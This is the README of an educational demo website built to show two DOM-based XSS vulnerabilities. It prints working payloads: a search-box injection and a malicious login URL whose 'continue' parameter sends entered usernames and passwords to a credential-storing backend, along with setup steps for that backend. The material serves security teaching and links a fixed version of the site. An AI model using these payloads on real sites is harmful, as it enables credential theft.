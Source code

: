 # No Man's Land Revenue Agency 

This is a demo of two DOM-based XSS vulnerabilities in a specifically crafted for this purpose website.
Imagine you're in No Man's Land and you need to access their revenue agency in order to fill in some tax statements...

## Instructions

To get started, navigate to No Man's Land Revenue Agency home page: [https://mtsanovv.github.io/nomanslandra/frontend/index.html](https://mtsanovv.github.io/nomanslandra/frontend/index.html). Feel free to play around with the website and figure out the XSS vulnerabilities yourself (or you can just check out the section below).

## XSS vulnerabilities in the website

- To inject malicious code via html element, open the [search page](https://mtsanovv.github.io/nomanslandra/frontend/search.html) and put the following string in the query input field and then press 'Search':
```article');$("#search").append("<img src=\"https://media.tenor.com/7XnVtgeQv4EAAAAC/money-pool-rich.gif\"/><iframe width=\"1\" height=\"1\" src=\"https://www.youtube.com/embed/_w7Ft_JTbH4?autoplay=1&loop=1\"><\/iframe>");console.log('```

- To inject malicious code via URL and collect some credentials:
    1. Create a MySQL database using the ```storeCredentials.sql``` file from the ```backend``` directory and grant ```SELECT/INSERT/UPDATE/DELETE``` privileges for it to some user
    2. Navigate to the ```backend``` directory and configure the MySQL properties in ```server.js``` (make sure to use the user from step 1)
    3. Run ```node server.js``` (you may need to run first ```npm install express mysql cors``` in the ```backend``` directory)
    4. Navigate to the [malicious login page URL](https://mtsanovv.github.io/nomanslandra/frontend/login.html?continue=$.ajax({contentType:%27application/json%27,type:%27POST%27,url:%27http://localhost:3000/storeCredentials%27,data:JSON.stringify({username:$(%27input:eq(0)%27).val(),password:$(%22input:eq(1)%22).val()})});$(%22article%22).first().append(%27%3Cimg%20src=%22https://media.tenor.com/7XnVtgeQv4EAAAAC/money-pool-rich.gif%22/%3E%3Ciframe%20width=%221%22%20height=%221%22%20src=%22https://www.youtube.com/embed/_w7Ft_JTbH4?autoplay=1%22%3E%3C/iframe%3E%27);console.log)

## Notes
- Created for educational purposes only and to demonstrate how bad XSS vulnerabilities can be
- Recommended browser engine: Chromium (Chrome). Gecko (Firefox) might also work but it has not been tested and WebKit (Safari) is not recommended due to odd behavior
- The app that has those XSS vulnerabilities fixed can be found at the following URL: [https://mtsanovv.github.io/nomanslandra/frontendInvulnerable/index.html](https://mtsanovv.github.io/nomanslandra/frontendInvulnerable/index.html)
- This is the unencoded JavaScript code for the 'continue' parameter in the malicious URL:
```$.ajax({contentType:'application/json',type:'POST',url:'http://localhost:3000/storeCredentials',data:JSON.stringify({username:$('input:eq(0)').val(),password:$("input:eq(1)").val()})});$("article").first().append('<img src="https://media.tenor.com/7XnVtgeQv4EAAAAC/money-pool-rich.gif"/><iframe width="1" height="1" src="https://www.youtube.com/embed/_w7Ft_JTbH4?autoplay=1"></iframe>');console.log```
- The website is based on Telephasic by HTML5UP!
- Inspired by: [https://btvnovinite.bg/bulgaria/shegadzhii-udariha-sajta-na-nap.html](https://btvnovinite.bg/bulgaria/shegadzhii-udariha-sajta-na-nap.html)

## License
Creative Commons Attribution 3.0 Unported
[http://creativecommons.org/licenses/by/3.0/](http://creativecommons.org/licenses/by/3.0/)

*M.Tsanov, 2023*
